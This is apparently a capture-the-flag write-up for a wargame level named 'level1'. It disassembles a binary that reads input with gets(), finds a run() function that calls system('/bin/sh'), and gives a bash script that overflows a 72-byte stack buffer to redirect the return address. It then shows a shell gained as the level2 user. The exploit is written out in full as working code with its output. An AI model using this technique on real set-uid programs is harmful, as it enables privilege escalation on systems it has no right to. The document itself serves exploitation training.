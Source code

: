 <span style="display: flex; justify-content: space-between;"><span style="text-align: left; display: block;">
	[← level0](../level0/solution.md)
</span>
<span style="text-align: center; display: block;">
	[Home](../README.md)
</span>
<span style="text-align: right; display: block;">
	[level2 →](../level2/solution.md)
</span>
</span>

level1
======

Dissassembly
------------

To dissassemble the executable we can use gdb.
```sh
FUNCTION=main EXECUTABLE=./level1
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

The main function looks like this:
```nasm
Dump of assembler code for function main:
   0x08048480 <+0>:     55                push   ebp
   0x08048481 <+1>:     89 e5             mov    ebp,esp
   0x08048483 <+3>:     83 e4 f0          and    esp,0xfffffff0
   0x08048486 <+6>:     83 ec 50          sub    esp,0x50
   0x08048489 <+9>:     8d 44 24 10       lea    eax,[esp+0x10]
   0x0804848d <+13>:    89 04 24          mov    DWORD PTR [esp],eax
   0x08048490 <+16>:    e8 ab fe ff ff    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    c9                leave
   0x08048496 <+22>:    c3                ret
End of assembler dump.
```

The stack looks like this:
| Address | Type          | Size |
|---------|---------------|------|
| -72     | char data[72] | 72   |
|   0     | *EBP          |  4   |
|  +4     | *EIP          |  4   |

Exploitation
------------

This is a typical case of stack-buffer overflow. This means we can overwrite data preceding the buffer on the stack, notably the return pointer preceding the buffer on the stack.

So let's see if we can exploit an existing function in the executable.

To list all functions we can use nm or objdump. Functions are located in the .text section:
```sh
objdump -M intel intel-mnemonic --disassemble ./level1
```

There is a function called `run`, which seams interesting:
```nasm
...
08048444 <run>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	a1 c0 97 04 08       	mov    eax,ds:0x80497c0
 804844f:	89 c2                	mov    edx,eax
 8048451:	b8 70 85 04 08       	mov    eax,0x8048570
 8048456:	89 54 24 0c          	mov    DWORD PTR [esp+0xc],edx
 804845a:	c7 44 24 08 13 00 00 	mov    DWORD PTR [esp+0x8],0x13
 8048461:	00
 8048462:	c7 44 24 04 01 00 00 	mov    DWORD PTR [esp+0x4],0x1
 8048469:	00
 804846a:	89 04 24             	mov    DWORD PTR [esp],eax
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	mov    DWORD PTR [esp],0x8048584
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave
 804847f:	c3                   	ret
...

```
We can see a call to system here:
```
8048472:	c7 04 24 84 85 04 08 	mov    DWORD PTR [esp],0x8048584
8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
```

The argument pushed on the stack is a string that is going to be executed with the level2 user's set-uid privileges.
Let's look at the string's content:
```sh
EXECUTABLE=level1
ADDRESS=0x8048584
gdb -batch -ex "x/s $ADDRESS" "$EXECUTABLE"
```

We can see that there already is all we need to gain the level2 user's privileges:
```
0x8048584:	 "/bin/sh"
```

All that is left to do is to craft an input string long enough to overflow the data array, and the base-pointer's value `*EBP` to be able to overwrite the return-pointer's value `*EIP`.

```sh
> /tmp/level1.sh cat << EOF
```
```bash
#!/usr/bin/env bash
PADDING_LEN=76 # sizeof(data) + sizeof(*EBP)

RETURN_ADDRESS='08048444' # The address of the run function

PADDING=$(printf "%.0sA" $(seq -s' ' "$PADDING_LEN"))
BYTES=$(<<< "$RETURN_ADDRESS" rev | dd conv=swab | xxd -r -p)

echo "$PADDING$BYTES"
```
```sh
EOF
chmod +x /tmp/level1.sh
```

```sh
(/tmp/level1.sh; cat) | ./level1
```
```
Good... Wait what?
whoami
level2
```
